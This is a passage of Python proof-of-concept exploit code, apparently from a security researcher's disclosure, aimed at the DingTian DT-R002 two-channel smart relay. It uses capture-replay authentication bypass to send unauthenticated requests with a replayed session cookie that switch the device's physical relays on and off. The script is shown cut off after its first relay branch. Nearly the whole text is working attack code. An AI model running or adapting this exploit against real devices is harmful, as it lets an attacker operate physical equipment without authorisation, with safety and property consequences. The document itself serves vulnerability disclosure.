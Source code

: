 ### PoC Code

```
#!/usr/local/bin/python3
# Author: Victor Hanna (SpiderLabs)
# DingTian DT-R002 2CH Smart Relay
# CWE-294 - Authentication Bypass by Capture-replay

import requests
import re
import urllib.parse
from colorama import init
from colorama import Fore, Back, Style
import sys
import os
import time

from urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

def banner():
    print ("[+]********************************************************************************[+]")
    print ("|   Author : Victor Hanna (9lyph)["+Fore.RED + "SpiderLabs" +Style.RESET_ALL+"]\t\t\t\t\t    |")
    print ("|   Description: DingTian DT-R002 2CH Smart Relay                                      |")
    print ("|   Usage : "+sys.argv[0]+" <host> <relay#>                                           |")   
    print ("[+]********************************************************************************[+]")

def main():
    os.system('clear')
    banner()
    urlRelay1On  = "http://"+host+"/relay_cgi.cgi?type=0&relay=0&on=1&time=0&pwd=0&"
    urlRelay1Off = "http://"+host+"/relay_cgi.cgi?type=0&relay=0&on=0&time=0&pwd=0&"
    urlRelay2On  = "http://"+host+"/relay_cgi.cgi?type=0&relay=1&on=1&time=0&pwd=0&"
    urlRelay2Off = "http://"+host+"/relay_cgi.cgi?type=0&relay=1&on=0&time=0&pwd=0&"

    headers = {
        "Host": ""+host+"",
        "User-Agent": "9lyph/3.0",
        "Accept": "*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "DNT": "1",
        "Connection": "close",
        "Referer": "http://"+host+"/relay_cgi.html",
        "Cookie": "session=4463009"
    }

    print (Fore.YELLOW + f"[+] Exploiting" + Style.RESET_ALL, flush=True, end=" ")
    for i in range(5):
        time.sleep (1)
        print (Fore.YELLOW + "." + Style.RESET_ALL, flush=True, end="")
    try:
        if (relay == "1"):
            print (Fore.GREEN + "\n[+] Relay 1 switched on !" + Style.RESET_ALL)
            r = requests.get(urlRelay1On)
            time.sleep (5)
            print (Fore.GREEN + "[+] Relay 1 switched off !" + Style.RESET_ALL)
            r = requests.get(urlRelay1Off)
```